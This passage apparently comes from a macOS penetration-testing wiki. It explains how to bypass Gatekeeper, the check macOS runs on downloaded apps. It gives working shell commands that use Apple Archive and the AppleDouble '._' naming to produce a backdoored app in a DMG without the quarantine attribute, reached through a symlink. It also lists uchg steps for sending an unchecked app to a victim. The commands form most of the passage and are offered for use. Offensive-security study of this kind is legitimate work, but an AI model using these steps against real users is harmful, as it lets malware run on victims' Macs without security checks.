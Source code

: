 {% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}

Being able to create a file that won't have the quarantine attribute set, it was **possible to bypass Gatekeeper.** The trick was to **create a DMG file application** using the AppleDouble name convention (start it with `._`) and create a **visible file as a sym link to this hidden** file without the quarantine attribute.\
When the **dmg file is executed**, as it doesn't have a quarantine attribute it'll **bypass Gatekeeper**.

```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir 
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```

### uchg (from this [talk](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

* Create a directory containing an app.
* Add uchg to the app.
* Compress the app to a tar.gz file.
* Send the tar.gz file to a victim.
* The victim opens the tar.gz file and runs the app.
* Gatekeeper does not check the app.

### Prevent Quarantine xattr

In an ".app" bundle if the quarantine xattr is not added to it, when executing it **Gatekeeper won't be triggered**.

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

